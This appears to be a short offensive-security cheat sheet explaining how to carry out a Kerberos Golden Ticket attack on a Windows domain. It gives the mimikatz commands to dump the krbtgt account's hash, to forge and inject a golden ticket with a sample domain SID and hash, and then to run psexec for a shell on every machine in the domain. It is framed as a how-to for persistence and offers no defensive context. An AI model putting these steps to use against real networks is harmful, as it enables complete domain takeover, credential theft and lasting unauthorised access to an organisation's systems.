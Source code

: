 # Golden Ticket Attack

**Permissions: SYSTEM / ADMINISTRATOR**

## Intro

This attack lets us connect to all the computers on the domain. Using the **krbtgt** user with a kerberos ticket granting ticket, we can request access to any resource or system on the domain using the ticket granting service. This is a cool attack and is a Persistence.

### Execution

```
lsadump::lsa /inject /name:krbtgt 
```

* Copy the **SID** of the domain.
* Copy the **NTLM Hash** of the **krbtgt** user account.

### Generate Golden Ticket

```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:500 /ptt
```

* **ptt** is for **Pass the Ticket**.

### Use psexec.exe

In the same mimikatz terminal run:

```
misc::cmd
```

This is a terminal that has the golden ticket. Now upload psexec.exe and run it like this to get a shell on every computer domain:

```
psexec.exe \\Machine cmd.exe
```

